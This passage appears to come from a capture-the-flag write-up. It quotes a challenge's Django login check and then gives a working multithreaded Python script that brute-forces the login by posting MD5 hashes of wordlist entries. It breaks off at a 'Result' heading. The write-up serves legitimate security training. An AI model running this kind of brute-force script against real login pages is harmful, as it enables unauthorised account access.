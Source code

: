 ```
    if request.method == 'POST':
        username = request.POST.get('username')
        password = request.POST.get('password')

        if username == 'admin' and password == random_md5:
            messages.success(request, 'Congratulations! Here is your flag [REDACTED]')
        else:
            messages.error(request, 'Invalid username or password.')

    return render(request, 'phash.html')
```

We can use a Python script to automatically try different passwords on a login page. we’ll use “admin” as the username as given in the source code and the MD5 hash of each word in marvel.txt as the password. it’ll keep trying different passwords until we find the correct one. To speed up the process, we can use multiple threads to handle multiple attempts at the same time.

**here is a simple script that will do the job**

```
import hashlib
import requests
from concurrent.futures import ThreadPoolExecutor

def check_password(password):
    username = "admin"
    url = "https://challs.aupctf.live/phash/"

    password = password.strip()
    password_hash = hashlib.md5(password.encode()).hexdigest()

    payload = {
        "username": username,
        "password": password_hash
    }

    response = requests.post(url, data=payload)
    print("Trying... "+password+" hash: "+password_hash)

    if "aupCTF" in response.text:
        print("Password found:", password)

def bruteforce_login():
    with open("list.txt", "r", encoding="utf-8", errors="ignore") as wordlist:
        passwords = wordlist.readlines()

    with ThreadPoolExecutor() as executor:
        executor.map(check_password, passwords)

bruteforce_login()
```

**Result**
